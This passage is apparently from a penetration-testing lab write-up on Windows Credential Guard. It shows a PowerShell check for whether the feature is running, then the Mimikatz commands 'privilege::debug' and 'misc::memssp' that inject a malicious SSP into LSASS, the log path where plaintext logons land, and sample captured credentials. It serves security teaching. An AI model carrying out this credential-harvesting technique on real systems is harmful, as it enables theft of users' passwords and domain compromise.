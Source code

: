 To verify if Credential Guard is running:

```powershell
Get-ComputerInfo | Select-Object DeviceGuardSecurityServicesRunning
```

When enabled, attempts to dump hashes with Mimikatz result in isolated/encrypted data instead of plaintext NTLM hashes.

## Bypassing Credential Guard with memssp

Since cached hashes are no longer accessible, attackers shift focus to **intercepting credentials during logon**. Mimikatz provides the `memssp` module, which injects a malicious **Security Support Provider (SSP)** into LSASS.

Launch Mimikatz and inject the SSP:

```bash
privilege::debug
misc::memssp
```

After injection, when a user logs in, plaintext credentials are written to:

```
C:\Windows\System32\mimilsa.log
```

Inspect the log file:

```powershell
type C:\Windows\System32\mimilsa.log
```

Sample captured credentials:

```
CORP\Administrator  QWERTY123!@#
CLIENTWK245\offsec   lab
```